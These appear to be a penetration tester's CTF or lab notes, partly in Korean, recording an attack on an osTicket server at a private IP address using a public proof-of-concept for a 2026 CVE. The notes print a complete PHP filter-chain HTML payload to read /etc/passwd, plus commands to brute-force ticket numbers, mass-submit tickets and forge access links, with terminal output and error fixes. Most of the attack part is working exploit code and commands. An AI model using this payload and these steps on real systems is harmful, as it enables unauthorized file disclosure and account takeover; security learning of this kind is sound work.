




# 192.168.139.104


```bash
sudo apt install seclists
# fc 
ffuf -u 'http://192.168.139.104/FUZZ' -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -fc 404
```

- CVE search with osTicket
> https://horizon3.ai/attack-research/attack-blogs/ticket-to-shell-exploiting-php-filters-and-cnext-in-osticket-cve-2026-22200/
> https://github.com/horizon3ai/CVE-2026-22200


---

```bash
git clone https://github.com/horizon3ai/CVE-2026-22200.git
cd CVE-2026-22200
# 취약 여부 진단
python3 check.py http://192.168.139.104/osticket/
```


### 가. 1차 표적: `/etc/passwd` (시스템 사용자 식별)

새 티켓 제출용:

```bash
python3 osticket_ticket_payload_gen.py -f /etc/passwd > payload.html

sudo apt install xclip

# cat으로 읽은 payload.html 내용을 클립보드에 바로 복사 (드래그 복사 불필요)
cat payload.html | xclip -selection clipboard
```

```
┌──(root㉿docker-desktop)-[/CVE-2026-22200]
└─# cat payload.html 
<ul><li style="list-style-image:url&#34(php%3A//filter/convert.iconv.%55%54%468.%43%53%49%53%4F2022%4B%52%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%4C6.%55%4E%49%43%4F%44%45%7Cconvert.iconv.%43%501282.%49%53%4F-%49%52-90%7Cconvert.iconv.%43%53%41_%54500-1983.%55%43%53-2%42%45%7Cconvert.iconv.%4D%49%4B.%55%43%532%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%53%452.%55%54%46-16%7Cconvert.iconv.%43%53%49%42%4D921.%4E%41%50%4C%50%53%7Cconvert.iconv.855.%43%50936%7Cconvert.iconv.%49%42%4D-932.%55%54%46-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%43%50861.%55%54%46-16%7Cconvert.iconv.%4C4.%47%4213000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%43%50861.%55%54%46-16%7Cconvert.iconv.%4C4.%47%4213000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%49%42%4D860.%55%54%4616%7Cconvert.iconv.%49%53%4F-%49%52-143.%49%53%4F2022%43%4E%45%58%54%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%4A%53.%55%4E%49%43%4F%44%45%7Cconvert.iconv.%4C4.%55%43%532%7Cconvert.iconv.%55%43%53-4%4C%45.%4F%53%4605010001%7Cconvert.iconv.%49%42%4D912.%55%54%46-16%4C%45%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%49%4E%49%53.%55%54%4616%7Cconvert.iconv.%43%53%49%42%4D1133.%49%42%4D943%7Cconvert.iconv.%49%42%4D932.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%53%452.%55%54%46-16%7Cconvert.iconv.%43%53%49%42%4D921.%4E%41%50%4C%50%53%7Cconvert.iconv.%43%501163.%43%53%41_%54500%7Cconvert.iconv.%55%43%53-2.%4D%53%43%50949%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%4A%53.%55%4E%49%43%4F%44%45%7Cconvert.iconv.%4C4.%55%43%532%7Cconvert.iconv.%55%43%53-4%4C%45.%4F%53%4605010001%7Cconvert.iconv.%49%42%4D912.%55%54%46-16%4C%45%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%43%50367.%55%54%46-16%7Cconvert.iconv.%43%53%49%42%4D901.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.iconv.%55%48%43.%43%501361%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%49%4E%49%53.%55%54%4616%7Cconvert.iconv.%43%53%49%42%4D1133.%49%42%4D943%7Cconvert.iconv.%49%42%4D932.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.8859_3.%55%54%4616%7Cconvert.iconv.863.%53%48%49%46%54_%4A%49%53%580213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%49%4E%49%53.%55%54%4616%7Cconvert.iconv.%43%53%49%42%4D1133.%49%42%4D943%7Cconvert.iconv.%43%53%49%42%4D943.%55%43%534%7Cconvert.iconv.%49%42%4D866.%55%43%53-2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%43%501162.%55%54%4632%7Cconvert.iconv.%4C4.%54.61%7Cconvert.iconv.%49%53%4F6937.%45%55%43-%4A%50-%4D%53%7Cconvert.iconv.%45%55%43%4B%52.%55%43%53-4%4C%45%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%4A%53.%55%4E%49%43%4F%44%45%7Cconvert.iconv.%4C4.%55%43%532%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.iconv.%4C6.%55%4E%49%43%4F%44%45%7Cconvert.iconv.%43%501282.%49%53%4F-%49%52-90%7Cconvert.iconv.%43%53%41_%54500-1983.%55%43%53-2%42%45%7Cconvert.iconv.%4D%49%4B.%55%43%532%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.%55%54%468.%55%54%467%7Cconvert.base64-decode/resource%3D/etc/passwd)">listitem</li>
</ul>
```

# 티켓 등록 후 티켓 넘버 찾기

```bash
python3 osticket_access_bruteforce.py http://192.168.139.104/osticket/ agnusdei1207@gmail.com --end 999999 --threads 20
```
- 에러 발생
─(root㉿docker-desktop)-[/CVE-2026-22200]
└─# python3 osticket_access_bruteforce.py http://192.168.139.104/osticket/ agnusdei1207@gmail.com --end 999999 --threads 20
Traceback (most recent call last):
  File "/CVE-2026-22200/osticket_access_bruteforce.py", line 19, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'

┌──(root㉿docker-desktop)-[/CVE-2026-22200]
└─# python3 osticket_access_bruteforce.py http://192.168.139.104/osticket/ agnusdei1207@gmail.com --start 100000 --end 999999 --threads 20
Traceback (most recent call last):
  File "/CVE-2026-22200/osticket_access_bruteforce.py", line 19, in <module>
    import requests
ModuleNotFoundError: No module named 'requests'

```bash
# error fix
apt install -y python3-requests
```




- 너무 오래 걸려서 100개 생성하기
┌──(root㉿docker-desktop)-[/CVE-2026-22200]
└─# python3 submit_guest_tickets.py http://192.168.139.104/osticket/ agnusdei1207@gmail.com --count
 100 --payload-file payload.html

 

 > 196033

 i] Progress: 96000/900000 tested, 0 valid found
[+] VALID: Ticket #196033 - Access link sent (email verification required)
[i] Progress: 96100/900000 tested, 1 valid found
[i] Progress: 96200/900000 tested, 1 valid found
[i] Progress: 96300/900000 tested, 1 valid found
[i] Progress: 96400/900000 tested, 1 valid found


- 정작 넘버 찾았는데, CTF 환경에서 이메일 수신이 불가함



positional arguments:
  number      The ticket number for the request.
  id          The user ID for the request.
  email       The email address for the request.
  salt        The secret salt value for hashing.
  url         The base URL of the target server (e.g., http://10.0.0.5)

options:
  -h, --help  show this help message and exit

Example: python osticket_forget_access_link.py 123456 123 user@example.com SECRETSALT
http://localhost:8000

> 196033
python3 osticket_forge_access_link.py 196033 123 agnusdei1207@gmail.com SECRETSALT 192.168.139.104


┌──(root㉿docker-desktop)-[/CVE-2026-22200]
└─# python3 osticket_forge_access_link.py 196033 123 agnusdei1207@gmail.com SECRETSALT 192.168.139.104
[*] Calculating hash for ID: 123, Email: agnusdei1207@gmail.com...
[*] Calculated Hash (a): 4932981d0d8552e21a7ab1f9e745c337
[*] Sending GET request to: 192.168.139.104/view.php
[*] Request Parameters: {'t': '196033', 'e': 'agnusdei1207@gmail.com', 'a': '4932981d0d8552e21a7ab1f9e745c337'}

[!] An error occurred during the request: Invalid URL '192.168.139.104/view.php': No scheme supplied. Perhaps you meant https://192.168.139.104/view.php?


python3 osticket_forge_access_link.py 196033 123 agnusdei1207@gmail.com SECRETSALT http://192.168.139.104/view.php?

- http 로 재전송

┌──(root㉿docker-desktop)-[/CVE-2026-22200]
└─# python3 osticket_forge_access_link.py 196033 123 agnusdei1207@gmail.com SECRETSALT http://192.168.139.104/view.php?
[*] Calculating hash for ID: 123, Email: agnusdei1207@gmail.com...
[*] Calculated Hash (a): 4932981d0d8552e21a7ab1f9e745c337
[*] Sending GET request to: http://192.168.139.104/view.php?/view.php
[*] Request Parameters: {'t': '196033', 'e': 'agnusdei1207@gmail.com', 'a': '4932981d0d8552e21a7ab1f9e745c337'}
[+] Request sent successfully. Analyzing response...
--------------------------------------------------
Full URL Sent: http://192.168.139.104/view.php?/view.php&t=196033&e=agnusdei1207%40gmail.com&a=4932981d0d8552e21a7ab1f9e745c337

Status Code: 404

Response Headers:
  Date: Mon, 05 Oct 2026 07:38:37 GMT
  Server: Apache/2.4.58 (Ubuntu)
  Content-Length: 277
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: text/html; charset=iso-8859-1

Response Text:
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.58 (Ubuntu) Server at 192.168.139.104 Port 80</address>
</body></html>



- 404 발생